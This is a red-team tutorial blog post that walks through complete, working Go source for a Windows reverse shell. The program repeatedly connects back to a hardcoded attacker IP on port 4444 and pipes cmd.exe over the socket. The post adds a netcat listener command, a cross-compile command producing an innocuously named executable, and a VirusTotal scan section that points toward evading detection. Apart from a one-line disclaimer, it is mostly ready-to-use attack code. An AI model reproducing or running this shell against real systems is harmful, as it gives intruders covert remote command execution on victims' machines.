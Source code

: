```yaml
---
layout: post
title: "Reverse Shell in Go"
date: 2024-06-18
categories: Reconnaissance Enumeration
tags: redteam, mitre, killchain, cpent, LPT, cpts, oscp, exploit
permalink: /go-revshell/
---
```


    # Building a Reverse Shell in Go

    In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

    ## Understanding the Code

    Let's break down the code step by step:

    ### Package and Imports

    ```go
    package main

    import (
        "fmt"
        "net"
        "os"
        "os/exec"
        "time"
    )
    ```

    - `package main`: Indicates that this Go file is the main package, which can be executed.
    - `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

    ### Variables

    ```go
    var (
        a1 = "192.168.23.129"
        a2 = 4444
    )
    ```

    - `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

    ### Function `e1()`

    ```go
    func e1() {
        if a1 == "0.0.0.0" || a2 == 0 {
            fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
            os.Exit(1)
        }
    }
    ```

    - `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

    ### Function `e2()`

    ```go
    func e2() net.Conn {
        var c net.Conn
        var err error
        for {
            c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
            if err == nil {
                break
            }
            time.Sleep(5 * time.Second)
        }
        return c
    }
    ```

    - `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

    ### Function `e3()`

    ```go
    func e3(c net.Conn) {
        cmd := exec.Command("cmd")
        cmd.Stdin = c
        cmd.Stdout = c
        cmd.Stderr = c
        err := cmd.Start()
        if err != nil {
            fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
            os.Exit(1)
        }
        cmd.Wait()
    }
    ```

    - `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

    ### Main Function

    ```go
    func main() {
        e1()
        c := e2()
        e3(c)
    }
    ```

    - The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

    ### Running the Code

    To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

    In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

    ```bash
    nc -nlvp 4444
    ```

    Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

    This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


    ## Virustotal Scan
    ![alt text](go-revshell.png)
    
#peacout


